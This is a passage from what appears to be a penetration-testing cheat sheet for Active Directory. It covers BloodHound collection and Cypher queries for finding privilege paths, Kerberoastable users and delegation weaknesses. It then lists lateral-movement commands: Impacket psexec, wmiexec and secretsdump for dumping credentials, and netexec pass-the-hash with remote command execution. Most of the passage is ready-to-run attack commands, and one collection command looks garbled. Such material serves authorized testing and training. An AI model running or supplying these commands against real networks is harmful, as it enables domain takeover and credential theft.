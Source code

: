Linux (w/creds):

```sh
sudo bloodhound-python -u '' -p '' -ns 10.10.10.100 -example.local -c all --zip
```

Raw Queries:

```
# Check for WinRM access
MATCH p1=shortestPath((u1:User)-[r1:MemberOf*1..]->(g1:Group)) MATCH p2=(u1)-[:CanPSRemote*1..]->(c:Computer) RETURN p2

# SQL Admin rights
MATCH p1=shortestPath((u1:User)-[r1:MemberOf*1..]->(g1:Group)) MATCH p2=(u1)-[:SQLAdmin*1..]->(c:Computer) RETURN p2
```

BloodHound queries to run:

*   Shortest Paths to Domain Admins
*   Find Principals with Unconstrained Delegation
*   Find Principals with Writeable ACLs
*   Find Kerberoastable users

Interpretation:

*   Prioritize low-effort shortcuts: unconstrained delegation, ACL write paths, Kerberoastable accounts.

* * *

## Lateral movement & credential use

Use cracked creds or NTLM hashes with Impacket/CME.

Common commands:

```sh
# psexec (Impacket)
python3 /usr/share/impacket/examples/psexec.py 'DOMAIN/Administrator:Pass@TARGET'

# wmiexec (Impacket)
python3 /usr/share/impacket/examples/wmiexec.py 'DOMAIN/user:Pass@TARGET'

# secretsdump (Impacket)
python3 /usr/share/impacket/examples/secretsdump.py DOMAIN/ADMIN:Pass@TARGET

# CME example
netexec smb TARGET -u 'user' -p 'Pass' --exec-method smbexec -x 'whoami && hostname'

# Pass-the-hash with CME
netexec smb TARGET -u 'Administrator' -H '<NTLM_HASH>' --exec-method smbexec -x 'whoami'
```

Evil-WinRM if WinRM enabled:
